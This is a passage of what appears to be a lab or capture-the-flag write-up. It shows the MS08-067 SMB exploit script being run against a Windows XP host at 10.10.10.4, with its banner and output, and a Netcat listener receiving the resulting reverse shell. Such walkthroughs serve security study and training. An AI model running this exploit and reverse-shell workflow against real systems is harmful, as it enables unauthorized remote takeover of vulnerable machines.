 The generated shellcode was first edited to remove the `b` at the start of the string, then inserted into the `ms08_067.py` script. 

### Run the Exploit
With the shellcode in place, I executed the exploit script.

```
python ms08_067.py 10.10.10.4 6 445
#######################################################################
#   MS08-067 Exploit
#   This is a modified verion of Debasis Mohanty's code (https://www.exploit-db.com/exploits/7132/).
#   The return addresses and the ROP parts are ported from metasploit module exploit/windows/smb/ms08_067_netapi
#
#   Mod in 2018 by Andy Acer
#   - Added support for selecting a target port at the command line.
#   - Changed library calls to allow for establishing a NetBIOS session for SMB transport
#   - Changed shellcode handling to allow for variable length shellcode.
#######################################################################


$   This version requires the Python Impacket library version to 0_9_17 or newer.
$
$   Here's how to upgrade if necessary:
$
$   git clone --branch impacket_0_9_17 --single-branch https://github.com/CoreSecurity/impacket/
$   cd impacket
$   pip install .


#######################################################################

Windows XP SP3 English (NX)

[-]Initiating connection
[-]connected to ncacn_np:10.10.10.4[\pipe\browser]
Exploit finish
```

### Set Up Listener
While running the exploit, I set up a Netcat listener to catch the reverse shell.

```
nc -lvnp 443
listening on [any] 443 ...
connect to [<Your_IP>] from (UNKNOWN) [10.10.10.4] 1039
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>
```